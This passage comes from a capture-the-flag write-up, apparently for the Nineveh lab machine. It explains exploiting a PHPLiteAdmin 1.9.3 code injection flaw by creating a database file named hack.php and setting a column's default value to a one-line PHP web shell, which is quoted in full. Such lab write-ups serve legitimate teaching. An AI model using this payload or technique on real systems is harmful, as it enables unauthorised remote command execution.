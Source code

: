 # Exploitation (1)

Following from `PHPLiteAdmin 1.9.3 - Remote PHP Code Injection` exploit, we create a database with the name `hack.php`.

![](/assets/images/nineveh11.png)

After that, if you see the properties of the `hack.php` database, you will realise the database is stored as the file `/var/tmp/hack.php`!

![](/assets/images/nineveh12.png)

Next we will create a table with any name and set it to have 1 column.

![](/assets/images/nineveh13.png)

Name the column anything but set the `Type` to `TEXT` and set the `Default Value` to `<?php system($_REQUEST["cmd"]) ?>`.

![](/assets/images/nineveh14.png)
